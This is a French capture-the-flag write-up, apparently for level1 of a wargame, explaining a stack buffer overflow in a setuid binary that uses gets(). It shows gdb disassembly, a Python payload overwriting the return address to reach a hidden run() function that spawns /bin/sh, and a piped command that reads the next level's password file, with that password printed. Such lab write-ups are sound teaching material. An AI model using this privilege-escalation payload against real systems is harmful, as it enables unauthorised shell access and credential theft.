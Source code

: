 ## Comportement
- J'ai des droits `level1` que je peux verifier en tapant `whoami`
- Un binaire est present avec des droits differents : `-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1*`
En exécutant le binaire (`./level1`), on observe:
- qu'il attend un input de notre part.
- qu'il exit juste apres notre input.
- qu'il segfault `Segmentation fault (core dumped)` si l'input est trop long.

→ Peut-être un segfault à exploiter ?


## Analyse
En analysant le binaire (`gdb ./level1`) on observe:
- La fonction appelle "gets" qui n'est pas securisé en cas de buffer overrun (voir `man gets`).
  ```shell
  (gdb) disas main
  ...
  0x08048490 <+16>:	call   0x8048340 <gets@plt>
  ...
  ```
- Il existe une fonction `run()` qui n'est pas appelé dans `main()` : 
  ```shell
  (gdb) i functions
  ...
  0x08048444  run
  0x08048480  main
  ...
  ```
- Dans la fonction `run()` il y a un appel systeme : 
  ```shell
  (gdb) disas main
  ...
  0x08048472 <+46>:	movl   $0x8048584,(%esp) # argument envoye a la fonction system() en dessous
  0x08048479 <+53>:	call   0x8048360 <system@plt>
  ...
  ```
- Il suffit d'examiner l'adresse du parametre envoye a la fonction `system()` 
(situe une ligne au dessus) pour constater qu'on execute `/bin/sh`. 
Ce qui est une technique courante pour lancer un shell interactif. 
  ```shell
  (gdb) x/s 0x8048584
  0x8048584:	 "/bin/sh"
  ```

## Résolution
- On va overflow la valeur de la commande `ret` avec l'adresse de la fonction `run()` pour que quand la 
commande `ret()` sera execute, c'est `run()` qui sera appelee et donc notre appel systeme sera execute
ouvrant ainsi un shell interactif.
- Il faut trouver l'offset de l'`eip` (le pointeur du jeu d'instruction en cours) pour savoir de 
combien il faut overflow le buffer. Dans `main()` on a vu que le buffer est de 80 bytes. 
(`0x08048486 <+6>:		sub    esp,0x50`). On obtient bien un segfault : 
```shell
$ python -c 'print "A" * 80' | ./level1
Segmentation fault (core dumped)
```
- Maintenant il faut gerer le padding, c'est a dire soustraire suffisament de bytes pour placer l'adresse 
de la fonction `run()` (`0x08048444`) que l'on veut inserer. Elle prend 4 bytes. On obtient encore un 
segfault, cette fois ce n'est pas normal car `run()` aurait du etre appele. 
```shell
$ python -c 'print "A" * 76 + "\x08\x04\x84\x44"' | ./level1
Segmentation fault (core dumped)
```
- En regardant bien la stack, on voit que l'adresse est inscrite en little endian, il faut donc l'inverser.
La fonction `run()` ets bien appele ! On le voit grace au print "Good... Wait what?" mais ou est le shell ? 
```shell
$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```
- Le shell exit car son process parent exit. Du coup il faut modifier le code pour fait un cat du mot
de passe avant que le shell ne se ferme. Cela donne : 
```shell
$ (python -c 'print "A" * 76 + "\x44\x84\x04\x08"'; echo "cat /home/user/level2/.pass") | ./level1
Good... Wait what?
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
Segmentation fault (core dumped)
```

Il ne reste plus qu'à :
- et passer au level2 (`su level2`) en renseignant le password obtenu plus haut.


